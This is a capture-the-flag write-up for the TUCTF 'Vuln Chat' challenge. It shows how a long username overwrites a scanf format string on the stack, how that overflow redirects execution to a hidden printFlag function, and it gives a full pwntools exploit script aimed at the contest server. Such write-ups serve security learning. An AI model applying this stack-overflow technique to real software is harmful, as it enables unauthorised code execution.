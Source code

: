 # Vuln Chat

```
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...

nc vulnchat.tuctf.com 4141

vuln-chat - md5: 5d081990e899864c9dc85b1cf255af6e
```

We start by net-catting into the provided server. A prompt asks for a name and then echoes it back to us. Djinn joins the chat, our name is echoed again, and we are prompted for more text. The program then exits. Because the name is echoed back to us, I immediately start to look for a format string exploit.

```
----------- Welcome to vuln-chat -------------
Enter your username: %x%x%x%x
Welcome %x%x%x%x!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
%x%x%x%x: hi there
djinn: Sorry. That's not good enough
```

It doesn't appear to be a simple format string bug so I open the provided binary in radare2. I notice that the format string for the second `scanf` call is stored on the stack (shown as `local_5h` in r2 below). I wonder if we can override this. Off to gdb to test.

```
│ 0x08048629 83c408         add esp, 8                        |
│ 0x0804862c 8d45d3         lea eax, [local_2dh]              |
│ 0x0804862f 50             push eax                          |
│ 0x08048630 8d45fb         lea eax, [local_5h]               |
│    ; const char * format                                    |
│ 0x08048633 50             push eax                          |
│ 0x08048634 e827feffff     call sym.imp.__isoc99_scanf ;[gd] |
```

Sure enough, if we enter 30 chars for the first prompt (the max chars it will read), we gain control of the second scanf format string.

![GDB](gdb_vuln_chat.png)

Going through the functions defined in the binary, I noticed that there is a function called printFlag that never gets called. We probably just need to overwrite EIP to point here. The plan is to override the second scanf format string so that we can override EIP.

After a bit of trial and error, I discovered that 49 bytes of padding + address of printFlag is what we are looking for. The python code for this is provided below.

```python
from pwn import *

def exploit(p):
    username = "AAAABBBBCCCCDDDDEEEE%100s"
    padding = "A" * 49
    address = p32(0x0804856b)

    p.recvuntil("Enter your username:")
    p.sendline(username)
    p.recvuntil("%100s:")
    p.sendline(padding+address)
    log.info("FLAG: " + p.recvline_contains("TUCTF"))

if __name__ == "__main__":
    if len(sys.argv) > 1:
        child = remote("vulnchat.tuctf.com", 4141)
        exploit(child)
    else:
        child = process(["vuln-chat"])
        exploit(child)

```



